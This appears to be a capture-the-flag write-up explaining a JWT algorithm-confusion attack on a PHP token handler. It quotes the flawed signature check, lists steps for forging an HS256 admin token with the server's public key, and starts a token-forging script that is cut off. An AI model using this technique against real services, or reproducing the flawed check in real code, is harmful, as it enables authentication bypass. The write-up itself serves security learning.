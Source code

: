 In the decodeToken function within the SimpleJWTHandler class, it first checks the JWT structure and then verifies the signature by calling the verifySignature function.

```php
// ...
if (!self::verifySignature("$header64.$payload64", $signature, $key, $header->alg)) {
    throw new UnexpectedValueException('Signature verification failed');
// ...
```

**Vulnerable Code: JWT Key Confusion Attack**\
Upon analyzing the verifySignature function, it is found that the algorithm used is HS256. Additionally, there are two possible cases, one using openssl and the other using hash_hmac. From the algorithm and these two cases, it can be concluded that this function also verifies using the HS256 algorithm.

```php
public static function verifySignature($message, $signature, $key, $algo = 'HS256')
{
    if (empty(self::$algorithms[$algo])) {
        throw new DomainException('Unsupported algorithm');
    }
    list($function, $algorithm) = self::$algorithms[$algo];
    switch ($function) {
        case 'openssl':
            $success = openssl_verify($message, $signature, $key, $algorithm);
            if (!$success) {
                throw new DomainException("OpenSSL verification failure");
            }
            return true;
        case 'hash_hmac':
        default:
            return $signature === hash_hmac($algorithm, $message, $key, true);
    }
}
```

Based to a source from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555), If you change the algorithm from RS256 to HS256, the back end code uses the public key as the secret key and then uses the HS256 algorithm to verify the signature. Then, using the public key and changing RS256 to HS256 we could create a valid signature.

**Steps to Exploitation:**

1. We already have the public key from the simple_jwt_handler function.
2. Use that public key to generate a Symmetric JWT with HS256, containing the payload with the role set to "admin".
3. Use generated cookie with "admin" role to getting FLAG.

**Exploitation:**\
The PHP script below was used to generate the cookie with the role set to "admin."

```php
<?php

class SimpleJWTHandler
{
    static $algorithms = array(
        'HS256' => array('hash_hmac', 'SHA256'),
        'HS512' => array('hash_hmac', 'SHA512'),
        'HS384' => array('hash_hmac', 'SHA384'),
        'RS256' => array('openssl', 'SHA256'),
    );

    public static function encodeToken($data, $key, $algo = 'HS256', $keyId = null)
    {
        $header = array('typ' => 'JWT', 'alg' => $algo);
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn